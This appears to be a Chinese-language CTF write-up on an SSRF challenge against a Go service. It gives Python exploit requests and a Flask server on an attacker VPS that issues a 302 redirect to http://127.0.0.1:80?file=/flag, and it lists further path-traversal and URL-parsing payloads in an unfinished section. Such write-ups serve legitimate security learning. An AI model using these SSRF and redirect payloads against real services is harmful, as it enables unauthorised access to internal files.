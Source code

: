 tags:: [[CTF/SSRF]]

- # 思路
	- SSRF+302跳转让目标访问127.0.0.1:80
- # 302
	- fuzz发现访问目标时`//a.a:1234/..`会发生302跳转，跳转到`//a.a:1234/../`
	- 所以让路由中的`client.Get`访问`http://127.0.0.1:1234//a.a:1234/..`会被跳转到`//a.a:1234/../`
	- 所以可以让他访问我们的VPS, 然后VPS再告诉它跳转到`http://127.0.0.1:80?file=/flag`
	- Exp
		- ```python
		  r = requests.post(url + "/vul", json = {
		      "url": f"http://127.0.0.1:1234//xxx:4051/.."
		  })
		  print(r.text)
		  ```
		- 然后在服务器`xxx:4051`上搭建：
			- ```python
			  from flask import Flask, redirect
			  
			  app = Flask(__name__)
			  
			  @app.route('/')
			  def my_redirect():
			      return redirect('http://127.0.0.1:80?file=/flag', code=302)
			  
			  if __name__ == '__main__':
			      app.run("127.0.0.1", 4051)
			  ```
- # 施工中
	- 考虑SSRF
	- 目录穿越？
		- ```python
		  r = base_get(url + "/aaa/../0cc175b9c0f1b6a831c399e269772661/0cc175b9c0f1b6a831c399e269772661")
		  print(r.status_code)
		  print(r.text)
		  # 正常返回文件内容
		  ```
	- golang解析url时的不一致问题
		- 这里带上问号和不带上，返回的结果不同
		- ```python
		  r = base_post(url + "/vul", json = {
		      "url": "http://127.0.0.1:1234/_@localhost:80/../0cc175b9c0f1b6a831c399e269772661/0cc175b9c0f1b6a831c399e269772661?"
		  })
		  
		  print(r.text)
		  ```